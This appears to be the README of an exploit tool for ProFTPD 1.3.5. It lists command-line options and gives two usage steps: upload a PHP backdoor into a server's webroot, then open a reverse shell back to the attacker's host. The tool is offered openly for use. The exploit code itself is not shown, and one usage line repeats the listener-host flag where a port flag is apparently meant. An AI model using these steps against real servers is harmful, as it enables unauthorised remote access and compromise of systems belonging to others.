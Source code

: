 # ProFTPD 1.3.5 File Upload to RCE exploit!


    ProFTPd 1.3.5 File Uploader
    Usage: ProFTPD.py [options]

    Options:
      -h, --help                show this help message and exit
      -l LHOST, --lhost=LHOST
                             Local IP Required for Reverse Shell,
      -p LPORT, --lport=LPORT
                             Port Required for Reverse Shell,
      -t TARGET, --target=TARGET
                             Vulnerable Target,
      -d DIRECTORY, --dir=DIRECTORY
                             WebRoot directory to Upload Backdoor,  Default: /var/www/html
      -c COMMAND, --command=COMMAND
                             System Command,
      -f FILE, --file=FILE  
                             Backdoor Name,  Default: shell.php
      -s SHELL, --shell=SHELL
                             ReverShell Name,
                                          
      




STEP 1 - Upload Backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -d '/var/www/html'

STEP 2 - Get Shell! mere commodity! you can always curl your backdoor!

    Usage: python3 exploit.py -t 10.x.x.x -f cmd.php -l 172.x.x.x -l 4242
